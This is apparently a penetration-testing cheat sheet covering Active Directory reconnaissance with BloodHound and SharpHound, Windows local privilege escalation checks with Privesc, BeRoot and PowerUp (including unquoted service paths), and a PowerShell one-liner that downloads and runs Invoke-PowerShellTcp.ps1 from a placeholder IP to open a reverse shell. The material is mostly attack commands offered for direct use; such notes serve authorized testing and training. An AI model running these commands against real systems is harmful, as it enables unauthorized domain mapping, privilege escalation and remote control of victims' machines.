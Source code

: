 ####  BloodHound
https://github.com/BloodHoundAD/BloodHound
```
cd Ingestors
. ./sharphound.ps1
Invoke-Bloodhound -CollectionMethod all -Verbose
Invoke-Bloodhound -CollectionMethod LoggedOn -Verbose

#Copy neo4j-community-3.5.1 to C:\
#Open cmd
cd C:\neo4j\neo4j-community-3.5.1-windows\bin
neo4j.bat install-service
neo4j.bat start
#Browse to BloodHound-win32-x64
Run BloodHound.exe
#Change credentials and login
```

####  Powershell reverse shell
```
Powershell.exe iex (iwr http://xx.xx.xx.xx/Invoke-PowerShellTcp.ps1 -UseBasicParsing);reverse -Reverse -IPAddress xx.xx.xx.xx -Port 4000
```

# Local privilege escalation
Focussing on Service issues
#### Privesc check all
https://github.com/enjoiz/Privesc
```
. .\privesc.ps1
Invoke-PrivEsc
```

#### Beroot check all
https://github.com/AlessandroZ/BeRoot
```
./beRoot.exe
```

####  Run powerup check all
https://github.com/HarmJ0y/PowerUp
```
. ./powerup
Invoke-allchecks
```

####  Run powerup get services with unqouted paths and a space in their name
```
Get-ServiceUnquoted -Verbose
Get-ModifiableServiceFile -Verbose
```
